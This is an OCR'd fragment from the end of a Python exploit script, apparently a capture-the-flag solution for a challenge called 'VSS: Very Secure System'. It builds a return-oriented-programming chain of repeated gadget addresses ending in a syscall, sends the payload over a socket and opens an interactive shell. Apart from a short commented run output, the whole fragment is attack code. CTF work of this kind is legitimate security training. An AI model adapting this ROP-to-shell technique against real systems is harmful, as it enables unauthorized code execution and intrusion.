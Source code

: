     	p += pack('<Q', 0x000000000045e790) 		# add rax, 1 ; ret
    	p += pack('<Q', 0x000000000045e790) 		# add rax, 1 ; ret
    	p += pack('<Q', 0x000000000045e790) 		# add rax, 1 ; ret
    	p += pack('<Q', 0x000000000045e790) 		# add rax, 1 ; ret
    	p += pack('<Q', 0x000000000045e790) 		# add rax, 1 ; ret
    	p += pack('<Q', 0x000000000045e790) 		# add rax, 1 ; ret
    	p += pack('<Q', 0x000000000045e790) 		# add rax, 1 ; ret
    	p += pack('<Q', 0x000000000045e790) 		# add rax, 1 ; ret
    	p += pack('<Q', 0x000000000045e790) 		# add rax, 1 ; ret
    	p += pack('<Q', 0x000000000045e790) 		# add rax, 1 ; ret
    	p += pack('<Q', 0x000000000045e790) 		# add rax, 1 ; ret
    	p += pack('<Q', 0x000000000045e790) 		# add rax, 1 ; ret
    	p += pack('<Q', 0x000000000045e790) 		# add rax, 1 ; ret
    	p += pack('<Q', 0x000000000045e790) 		# add rax, 1 ; ret
    	p += pack('<Q', 0x000000000045e790) 		# add rax, 1 ; ret
    	p += pack('<Q', 0x000000000045e790) 		# add rax, 1 ; ret
    	p += pack('<Q', 0x000000000045e790) 		# add rax, 1 ; ret
    	p += pack('<Q', 0x000000000045e790) 		# add rax, 1 ; ret
    	p += pack('<Q', 0x000000000045e790) 		# add rax, 1 ; ret
    	p += pack('<Q', 0x000000000045e790) 		# add rax, 1 ; ret
    	p += pack('<Q', 0x000000000045e790) 		# add rax, 1 ; ret
    	p += pack('<Q', 0x000000000045e790) 		# add rax, 1 ; ret
    	p += pack('<Q', 0x000000000045e790) 		# add rax, 1 ; ret
    	p += pack('<Q', 0x000000000045e790) 		# add rax, 1 ; ret
    	p += pack('<Q', 0x000000000045e790) 		# add rax, 1 ; ret
    	p += pack('<Q', 0x000000000045e790) 		# add rax, 1 ; ret
    	p += pack('<Q', 0x000000000045e790) 		# add rax, 1 ; ret
    	p += pack('<Q', 0x000000000045e790) 		# add rax, 1 ; ret
    	p += pack('<Q', 0x000000000045e790) 		# add rax, 1 ; ret
    	p += pack('<Q', 0x000000000045e790) 		# add rax, 1 ; ret
    	p += pack('<Q', 0x000000000045e790) 		# add rax, 1 ; ret
    	p += pack('<Q', 0x000000000045e790) 		# add rax, 1 ; ret
    	p += pack('<Q', 0x000000000045e790) 		# add rax, 1 ; ret
    	p += pack('<Q', 0x000000000045e790) 		# add rax, 1 ; ret
    	p += pack('<Q', 0x00000000004004b8) 		# syscall


    	s.send( p )									# send payload

    	print ' *** Opening Shell *** '
    	t = telnetlib.Telnet()              		# try to get a shell
    	t.sock = s
    	t.interact()

    	exit(0)
    # --------------------------------------------------------------------------------------------------
    '''
    root@xrysa:~/ctf/alictf# ./vss_expl.py
    	VSS:Very Secure System
    	Password:
